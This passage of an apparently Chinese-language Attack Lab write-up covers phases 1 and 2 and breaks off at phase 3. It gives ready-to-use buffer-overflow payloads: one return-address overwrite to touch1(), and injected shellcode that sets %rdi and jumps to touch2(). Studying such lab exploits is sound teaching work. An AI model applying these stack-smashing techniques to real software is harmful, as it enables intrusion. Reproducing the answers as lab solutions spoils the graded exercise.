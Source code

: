 这题暂时不需要代码注入，反汇编后很容易发现 `getbuf()` 栈大小为 `0x28(40)` 个字节，`test()` 栈帧顶部为返回地址，只要让缓冲区溢出改写改地址为 `touch1()` 第一条指令地址即可

#### 答案

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 /* touch1() */
```

### phase_2

#### 目标

类似地，只不过调用 `touch2()` 的同时需传入参数（即改变 `%rdi` 寄存器的值）

```cpp
void touch2(unsigned val)
{
    vlevel = 2;
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

#### 分析

需要改变寄存器的值就需要额外执行指令，那么就可以将汇编指令转为机器码写入栈中，再用 `gdb` 查看栈顶地址，将返回地址改写为栈顶地址，这样就能运行期望的指令了。

#### 答案

```assembly
48 c7 c7 fa 97 b9 59 68 /* mov  $0x59b997fa, %rdi;   pushq  $0x4017ec;   ret */
ec 17 40 00 c3 00 00 00 /* 0x004017ec is the address of touch2()             */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address of Line 1 */
```

### phase_3

#### 目标

这一回调用 `touch3()` 时需要传入的参数是指针，字符串内容为 `cookie`
